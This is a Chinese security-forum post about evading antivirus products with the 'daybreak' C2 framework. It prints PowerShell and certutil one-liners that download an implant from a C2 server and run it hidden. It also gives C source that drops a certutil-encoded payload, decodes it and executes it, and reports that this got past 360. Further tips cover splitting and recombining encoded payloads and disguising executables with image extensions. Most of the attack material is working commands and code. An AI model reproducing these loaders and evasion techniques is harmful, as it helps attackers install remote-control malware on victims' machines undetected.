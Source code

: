 

# 免杀学习 - 从指令绕过开始 (1) - 先知社区

免杀学习 - 从指令绕过开始 (1)



# 免杀学习 - 从指令绕过开始 -1

# 破晓

免杀新伙伴-daybreak，这个工具是类似 CS 的工具

下面的图片是它的控制界面，利用了 Web 界面更加简介美观且自带中文

[![](assets/1701612229-31b1d05ed0bf6fa5c832f4a43e90caef.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163540-e493cada-32a1-1.png)

分析一下它自带的上线语句

[![](assets/1701612229-013d341e6fd225682131cb76cc9b583f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163615-f9f37146-32a1-1.png)

支持多种操作系统的上线，相比 CS 需要按照插件才能上线 linux 更加集成

支持利用 powershell 和 certutil 指令进行上线操作

```plain
powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://127.0.0.1:1338/d/pzxsnoqd','pzxsnoqd.exe') && pzxsnoqd.exe agent -u http://127.0.0.1:1338 -s e75tdmwe

certutil -urlcache -gmt -split -f http://127.0.0.1:1338/d/pzxsnoqd pzxsnoqd.exe && pzxsnoqd.exe agent -u http://127.0.0.1:1338 -s e75tdmwe
```

需要注意的是破晓的上线操作需要利用探针的参数才行，比如这里的 e75tdmwe

# 初步测试

我们将自带的命令进行编译生成 exe 文件直接尝试上线

[![](assets/1701612229-3d56aa4a7ab0fed009b0f0ae6dd53cb1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163630-02d3e1a6-32a2-1.png)

### 在 360 环境下测试

[![](assets/1701612229-4ef77cb20b6a74b474457405d1b6711b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163651-0f4b3bbe-32a2-1.png)

静态免杀没问题，尝试上线

[![](assets/1701612229-26ecc135b398de1b5146d4b96ff1eb94.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163707-18822634-32a2-1.png)

上线失败被阻止

### 在火绒环境下运行

静态云查杀依旧没有问题

[![](assets/1701612229-52184da398b2994e694eebcdaa2426c5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163728-254cd2c4-32a2-1.png)

尝试上线

[![](assets/1701612229-9f440f595cb777c98de5a353c8893557.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163748-3111d2f8-32a2-1.png)

果然还是被阻止了

### 进行文件分析

效果显示很不错

```plain
https://www.virustotal.com/gui/
```

[![](assets/1701612229-2a324d73c44e09938af8288fe889af08.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163804-3ae019d4-32a2-1.png)

这个就更离谱了

```plain
https://www.virscan.org/language/zh-cn/
```

[![](assets/1701612229-acf71c05a5764dd842ad751707f5b8c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163816-41c948c4-32a2-1.png)

# 进阶

通过利用 certutil 自带的加解密功能进行木马的免杀

加密代码

```plain
Certutil -encode C+Powershell.exe out.txt
```

C 语言源码

```plain
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <iostream>
#include <fstream>
using namespace std;

int main()
{
    char automobie[50];
    ofstream outfile;
    #将解密的内容写入一个文件中
    outfile.open("encryption.txt");
    outfile.setf(ios_base::showpoint);
    outfile << "-----BEGIN CERTIFICATE-----\n"
        #C2文件加密的内容
        "-----END CERTIFICATE-----\n"
            << endl;
    outfile.close();
    #进行解密
    system("Certutil -decode encryption.txt test.exe");
    #确保上述代码运行完成
    Sleep(5000);
    system("test.exe C2执行参数");
    return 0;
}
```

再次编译生成 exe 文件，点击运行，首先产生一个解码文件，然后再次产生可执行文件，最终达到上线，下图时

[![](assets/1701612229-e5865ef3cbf682b7bb6016c6b96e117e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163850-56423ffe-32a2-1.png)

### 火绒环境下

发现成功产生了解密文件和木马文件，但木马文件运行时仍出现告警

### 360 环境下

我没想到火绒杀了，联网的 360 居然没杀，成功上线

[![](assets/1701612229-421070a4fff076fbd08e9919932bcf08.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163909-619acbd2-32a2-1.png)

进行 360 木马查杀中的快速查杀，居然还没杀掉

[![](assets/1701612229-4584f93c24c61e239d3b68ec4aa6db71.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163940-7409e3ac-32a2-1.png)

# 技巧一（缝合）

当我们利用 certutil 进行的时候，会发现我们加密后的数据过于冗长可能会在上传过程中遇到很多问题，那么我们可以利用文件切割，再利用我们的 COPY 指令进行缝合

```plain
copy 1.txt+2.txt+...+n.txt  out.txt
```

最后利用

```plain
certutil -decode out.txt   C2 可执行文件名.exe
```

我们通过以下命令进行加密，产生 txt 文件

```plain
Certutil -encode C+Powershell.exe out.txt
```

利用文本切割器，按照每 500 行一份进行切割

```plain
文本切割器网站
https://uutool.cn/txt-incise/
```

[![](assets/1701612229-84971a7a654afc9763f9d138746d52a0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804163956-7d776554-32a2-1.png)

我们将文本缝合后利用 certutil 进行解密

```plain
certutil -decode out.txt test.exe
```

[![](assets/1701612229-bfde7c502b03475ea25679a94fcbf14e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164013-87690b4e-32a2-1.png)

运行木马程序

火绒报错

360 在文本进行编译成 exe 后直接报警

[![](assets/1701612229-c21f140e5704ef9b83a7e7b7d7c9475f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164028-90499198-32a2-1.png)

### 技巧二（冷知识）

windows 命令行，中执行命令对文件判断时，不是判断文件后缀而是判断文件头，因此如果我们是 exe 文件，我们修改后缀为 jpg 等依旧可以额执行命令

测试代码如下

```plain
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>
#include <iostream>
#include <fstream>
using namespace std;

int main()
{
    char automobie[50];
    ofstream outfile;
    outfile.open("encryption.txt");
    outfile.setf(ios_base::showpoint);
    outfile << "-----BEGIN CERTIFICATE-----\n"

"-----END CERTIFICATE-----\n"
            << endl;
    outfile.close();
    return 0;
}
```

进行命令执行

[![](assets/1701612229-803f238cfdf699d0395eac5aa275fb44.png)](http://xz.aliyun.com/t/%E8%BF%9B%E9%98%B6%E5%85%8D%E6%9D%801-0/image-20230327172739414.png)

命令执行结果

[![](assets/1701612229-ac3339e8ffd5f9aa633ffb373317545b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164112-aac13260-32a2-1.png)

但当我们想直接在 C 中将解密后的文件修改后缀再启动时，会遇到以下错误，解密文件会产生成功但无法执行

[![](assets/1701612229-deef84a5b362b027bab46227bf5030b3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230804164130-b529af0c-32a2-1.png)
